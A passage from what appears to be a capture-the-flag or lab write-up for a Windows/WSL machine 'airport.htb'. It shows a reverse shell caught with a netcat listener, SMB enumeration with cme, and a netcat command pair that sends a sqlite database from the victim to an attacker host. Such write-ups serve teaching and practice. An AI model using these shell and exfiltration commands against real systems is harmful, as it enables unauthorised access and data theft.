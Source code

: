 [+] Exploit seems to work. Wait for a connection on port 1433.</code>
</pre>

About 20 seconds later, we'll get a shell as Matthew:

<pre 
  class="command-line" 
  data-prompt="ruycr4ft@hacky $" 
  data-output="4"
><code class="language-bash">nc -lvnp 1433
listening on [any] 1433 ...
connect to [10.10.11.129] from (UNKNOWN) [10.10.11.136] 49813
sh: 0: can't access tty; job control turned off
matthew@DC01$</code>
</pre> 

## Shell - matthew (Windows Server)

This hostname matches with the Windows end:

<pre 
  class="command-line" 
  data-prompt="ruycr4ft@hacky $" 
  data-output="4"
><code class="language-bash">cme smb 10.10.11.136
SMB         10.10.11.136    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:airport.htb) (signing:True) (SMBv1:False)</code>
</pre> 

This is, for sure, that the Linux server is configured in WSL. Thus, players will immediately change directory to `/mnt/c` in order to read the flags. However, I've protected this to happen:

<pre 
  class="command-line" 
  data-prompt="matthew@DC01 $" 
  data-output="4"
><code class="language-bash">cd /mnt/c
ls
ls -la
drwxrwxrwx 1 root root 4096 Apr 10 12:15 .
drwxr-xr-x 1 root root 4096 Apr 10 12:15 ..</code>
</pre> 

Going back into Matthew's home directory, we can notice the `airflow` folder, which contains a sqlite database file:

![image-20240329170637616](C:\Users\Ruy\AppData\Roaming\Typora\typora-user-images\image-20240329170637616.png)

With netcat we can transfer this file to our attacker box:

```bash
# Attacker box
nc -l -p 9001 > airflow.db 
# DC01
nc -w 3 192.168.0.117 9001 < airflow.db
```
